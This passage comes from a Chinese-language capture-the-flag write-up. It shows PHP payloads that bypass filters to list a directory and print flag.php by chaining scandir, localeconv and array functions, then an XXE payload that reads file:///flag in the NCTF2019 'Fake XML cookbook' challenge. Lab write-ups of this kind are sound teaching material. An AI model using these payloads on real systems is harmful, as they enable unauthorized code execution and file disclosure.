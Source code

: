 ```php
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

过滤了伪协议，过滤了很多字符，过滤了参数

`Payload`

```
需要先查看一下当前的目录情况

scandir(current(localecnov())) 

localecnov() 函数返回一个包含本地数字及货币格式信息的数组。相当于Linux的ls。(我上面放的链接也简单说了一下这个函数)。

scandir()就是列出目录中的文件和目录.

current() 返回数组中当前元素的值

exp=print_r(scandir(current(localeconv())));
return: Array ( [0] => . [1] => .. [2] => .git [3] => flag.php [4] => index.php )
```

使用反转数组函数:`array_reverse()`。再让指针指向下一个数组元素（第二个）`next()`

```
exp=print_r(next(array_reverse(scandir(current(localeconv())))));
return: flag.php
highlight_file(next(array_reverse(scandir(current(localeconv())))));
```

### chdir()

这个函数是用来跳目录的，有时想读的文件不在当前目录下就用这个来切换，因为`scandir()`会将这个目录下的文件和目录都列出来，那么利用操作数组的函数将内部指针移到我们想要的目录上然后直接用`chdir`切就好了，如果要向上跳就要构造`chdir('..')`

## [NCTF2019]Fake XML cookbook

看题目猜测是`XXE`

抓包看之后发现是`POST`的`XML`格式，尝试简单的`XXE`

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ 
<!ENTITY rabbit SYSTEM "file:///flag" >
]>
<user><username>&rabbit;</username><password>123</password></user>
```
